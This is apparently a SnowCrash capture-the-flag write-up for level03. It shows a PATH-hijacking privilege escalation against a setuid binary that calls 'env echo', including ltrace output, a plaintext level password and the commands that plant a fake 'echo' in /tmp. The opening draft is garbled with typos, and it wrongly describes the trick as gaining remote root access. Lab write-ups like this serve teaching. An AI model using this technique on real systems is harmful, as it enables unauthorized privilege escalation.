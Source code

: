 # loging into level03 first 

	su: Authentication failure
	level03@SnowCrash:~$ su level03
	Password: kooda2puivaav1idi4f57q8iq

# finding a executable file 

trying to execute it and a message just appear Exploit me

using ltrace we are going to find system("/usr/bin/env echo exploit me : exploit me 

means that we can  to manipulate $PATH variable” to gain root access of a remote host machine 

	which getflag "/bin/getflag"

	vim echo 
	chmod 777 eho 
	echo $PATH 
	export PATH=/~$PATH
	pwd
	export PATH=//home/user/level03:$PATH
	./level03

PATH is an environmental variable in Linux and Unix-like operating systems which specifies all bin and sbin directories that hold all executable programs are stored.
hen the user run any command on the terminal, its request to the shell to search for executable files with the help of PATH Variable in response to commands executed by a user. The superuser also usually has /sbin and /usr/sbin entries for easily executing system administration commands.

It is very simple to view the Path of the relevant user with help of echo command.


## Vulnerability & exploit

Env invocation by a privileged user -> Privilege escalation by providing replacement to built-in command

## External resources

ltrace

## Initial Context

In our home directory, we have an executable with suid/guid:

```
level03@SnowCrash:~$ ls -l level03
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
level03@SnowCrash:~$ ./level03
Exploit me
```

## Solving the challenge

Let's try to exploit the binary as instructed, by using the ltrace debugger:

```
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                               = 2003
geteuid()                                                               = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                     = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                     = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                  = 0
+++ exited (status 0) +++
```

As discussed [here](https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code), we see that the program does a system call to run echo using /usr/bin/env.
The man (`info coreutils 'env invocation'`) tells us that:

> The first operand that does not contain the character '=' specifies the program to invoke; it is searched for according to the 'PATH' environment variable.
> and that
> Modifications to 'PATH' take effect prior to searching for COMMAND.

It even gives us a hacking tip:

> Run `foo' with the environment containing `LOGNAME=rms', `EDITOR=emacs', and `PATH=.:/gnubin:/hacks', and guarantees that `foo' was found in the file system rather than as a shell built-in.
> env foo

To recap: the program will start by setting the environment before running the echo command.

The bash man here provides some useful information:

> If the name is neither a shell function nor a builtin, and contains no slashes, bash searches each element
> of the PATH for a directory containing an executable file by that name.

So we have to create our own echo executable file, and make sure that it's found before the original echo executable.
Since the file has the suid bit set, all commands will be run with the rights of the file owner (flag03) - so we'd like to trick the program into running `getflag` instead of `echo`.

```
level03@SnowCrash:~$ echo getflag > /tmp/echo && chmod +x /tmp/echo
```

Then, we instruct bash to look for the executable in /tmp first by adding /tmp at the beginning of the \$PATH environment variable:

```
level03@SnowCrash:~$ export PATH=/tmp:$PATH && echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Finally, run the executable to get the token for level04:

```


```
